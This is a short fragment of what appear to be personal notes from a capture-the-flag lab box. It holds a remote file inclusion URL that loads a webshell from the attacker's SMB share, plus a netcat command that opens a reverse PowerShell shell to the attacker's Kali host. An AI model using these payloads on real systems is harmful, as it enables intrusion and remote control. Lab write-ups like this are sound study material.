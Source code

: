 ##

http://10.129.107.51/blog/?lang=//10.10.14.4//evil//webshell.php

##

#
WEB RFI doesn't work, but SMB RFI works. Reverse Shell with Pentesting Monkey doesn't work, but Metepreter and WebShell work. 

Created Dir and upload NC to execute powershell to kali. nc.exe -e powershell ip port
#
